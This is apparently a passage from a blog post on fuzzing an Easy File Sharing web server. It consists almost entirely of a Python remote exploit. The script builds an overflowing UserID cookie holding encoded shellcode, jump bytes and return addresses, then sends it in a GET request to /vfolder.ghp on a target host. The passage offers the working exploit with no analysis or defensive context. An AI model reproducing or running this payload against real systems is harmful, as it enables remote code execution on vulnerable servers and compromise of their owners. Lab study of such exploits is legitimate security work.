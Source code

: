 ```python
import socket
import struct
target = "192.168.72.130"
port = 80

shellcode = (
"\xd9\xcb\xbe\xb9\x23\x67\x31\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x13\x31\x72\x19\x83\xc2\x04\x03\x72\x15\x5b\xd6\x56" +
"\xe3\xc9\x71\xfa\x62\x81\xe2\x75\x82\x0b\xb3\xe1\xc0\xd9" +
"\x0b\x61\xa0\x11\xe7\x03\x41\x84\x7c\xdb\xd2\xa8\x9a\x97" +
"\xba\x68\x10\xfb\x5b\xe8\xad\x70\x7b\x28\xb3\x86\x08\x64" +
"\xac\x52\x0e\x8d\xdd\x2d\x3c\x3c\xa0\xfc\xbc\x82\x23\xa8" +
"\xd7\x94\x6e\x23\xd9\xe3\x05\xd4\x05\xf2\x1b\xe9\x09\x5a" +
"\x1c\x39\xbd"
)
payload = "A"*64 + "\x81\xee\xe8\xff\xff\xff" + "\xff\xe6"
payload = payload.ljust(80,"A")
payload += struct.pack("<I", 0x019b68d4) + struct.pack("<I", 0x1001b371) + shellcode

buf = (
"GET /vfolder.ghp HTTP/1.1\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*\r\n"
"Accept-Language: zh-cn\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"If-Modified-Since: Fri, 11 May 2012 10:11:48 GMT; length=12447\r\n"
"User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET4.0C; .NET4.0E)\r\n"
"Host: " + target + ":80\r\n"
"Conection: Keep-Alive\r\n"
"Cookie: SESSIONID=2626; UserID=" + payload + "; PassWD=; \r\n\r\n"
)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((target,port))
s.send(buf)
s.close()
```
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-06-07-fuzz-EFS/24.png)